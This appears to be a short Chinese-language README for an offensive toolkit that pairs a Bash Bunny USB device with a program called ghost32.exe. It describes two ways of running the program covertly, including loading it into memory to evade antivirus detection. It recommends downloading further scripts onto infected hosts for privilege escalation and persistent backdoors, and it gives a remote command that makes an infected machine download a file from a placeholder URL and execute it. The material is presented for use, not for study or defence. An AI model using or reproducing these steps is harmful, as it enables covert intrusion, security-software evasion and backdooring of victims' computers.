 ##Bashbunny

这个环节是利用bashbunny配合程序进行隐蔽攻击。
###ghost attack v1
我们直接将ghost32.exe写入内存，可以彻底逃避杀毒软件的查杀。并且在某些windows平台会崩溃，目前会在Powershell执行的时候被火绒警告
###ghost attack v2
将我们的ghost32.exe放在tool目录下，可以直接利用powershell脚本调用。在未来容易被杀毒软件查杀。

###另外
在ghost32.exe感染主机后，远程执行命令。我们建议利用Powershell来下载更多的脚本配合提权或者长连接后门。利用我们的python脚本，经过测验可以使用如下命令:
`python scapy_ghost.py -c "powershell (new-object System.Net.WebClient).DownloadFile('http://xxxxxx','d://xxxx');start-process -f ('d://xxxxx')"`